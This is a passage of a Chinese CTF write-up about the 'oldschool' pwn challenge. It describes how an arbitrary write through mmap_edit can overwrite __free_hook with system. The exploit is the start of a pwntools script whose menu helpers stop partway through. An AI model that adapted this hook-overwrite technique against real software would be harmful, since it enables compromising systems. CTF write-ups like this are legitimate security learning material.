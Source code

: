 ![](siri.jpg)
脚本里有一些细节的问题，我应该会记在本地，后续看心情上博客，反正这题，做的挺不容易的，问了至少有5个师傅，我是真菜  

## oldschool  
需要自己编译，编译命令是GCC -m32 -O3，环境是Ubuntu 18.04  
mmap_allocate函数  
![](oldschool1.png)
mmap_edit函数，存在任意写  
![](oldschool2.png)
这里我一开始想的是，mmap_allocate问我们从哪里开始，那我寻思就填个地址才对，比如说填那个0xe0000000，说明我们mmap出来的空间是以0xe0000000为首地址的  
这里因为是四字节，所以0-0x20000000=0xe0000000，所以分配出来的首地址，就是0xe0000000，然后利用mmap_edit函数任意写，计算free_hook函数的idx，向里写system  
### exp  
```python
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','sh','-c']
binary = './oldschool' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF("/lib/i386-linux-gnu/libc.so.6")
def add(index,size):
    p.recvuntil("choice: ")
    p.sendline("1")
    p.recvuntil("Index: ")
    p.sendline(str(index))
    p.recvuntil("Size: ")
    p.sendline(str(size))
def edit(index,content):
    p.recvuntil("choice: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(index))
    p.recvuntil("Content: ")
    p.sendline(content)
def show(index):
    p.recvuntil("choice: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(index))
def free(index):
    p.recvuntil("choice: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(index))
def mmap_new(addr):
    p.recvuntil("choice: ")
    p.sendline("6")
    p.recvuntil("start: ")
    p.sendline(str(addr))
def mmap_edit(index,value):
    p.recvuntil("choice: ")
    p.sendline("7")
    p.recvuntil("Index: ")
```